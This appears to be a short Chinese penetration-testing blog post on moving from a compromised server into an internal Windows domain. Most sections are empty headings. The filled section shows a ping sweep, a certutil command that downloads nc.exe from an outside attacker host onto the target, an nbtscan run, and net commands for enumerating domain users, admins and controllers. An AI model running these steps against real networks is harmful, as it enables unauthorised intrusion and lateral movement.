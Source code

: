 ```yaml
---
title: 从命令执行到内网渗透
category: 
- 渗透测试
tags: 
- 内网渗透
---
```


### 命令执行

### 获取shell

### 维持访问

### 内网信息收集

此时获得了域内一台服务器的系统权限，但是该服务器不能直接访问域服务器。因此接下来需要攻击到内网中可以访问到域服务器的机器。首先需要**探测内网存活主机**：

```cmd
for /l %i in (1,1,255) do @ ping 10.10.1.%i -w 1 -n 1|find /i "ttl="
```

简单一点可以用ping扫描的方式，但是as中无法回显出结果。所以选择用**nbtscan扫描。**首先下载程序然后在目标机器执行：

```cmd
certutil.exe -urlcache -split -f http://198.13.xxx.xxx/nc.exe
nbtscan-1.0.35.exe -m 192.168.1.0/24
```

结果如下：

![image-20210610191018443](https://raw.githubusercontent.com/John-tlh/blog/master/imagesimage-20210610191018443.png)

`查看域用户`：net user /domain

`查看有几个域`：net view /domain

`查看域内主机`: net view /domain:xxx

`查看域内的组`:net view /domain

`查看域管理员`: net group "domain admins" /domain

`查看域控`: net group "domain controllers" /domain

### 横向移动

<!-- more -->